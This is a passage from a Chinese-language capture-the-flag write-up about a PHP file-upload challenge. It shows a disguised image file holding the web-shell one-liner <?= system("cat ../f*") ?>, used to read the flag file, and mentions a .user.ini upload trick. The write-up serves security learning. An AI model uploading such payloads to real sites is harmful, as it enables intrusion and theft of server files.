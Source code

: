 这个时候就说，反正后门会执行那个代码，其实我们可以不用绕一个弯弯，直接让index.php文件写入我们想要的执行代码，并且我们其实已经知道了flag.php文件在哪里，所以我们直接把我们的shell2.png改成\<?= system("cat ../f\*") ?>就行，并且就这一句，还可以不要分号。

<figure><img src="../.gitbook/assets/image (30).png" alt=""><figcaption></figcaption></figure>

```php
<?=
system("cat ../f*")
?>

```

再上传上去就发现成功了

<figure><img src="../.gitbook/assets/image (31).png" alt=""><figcaption></figcaption></figure>

然后我们还要把.user.ini.png上传上去并且修改一下后缀
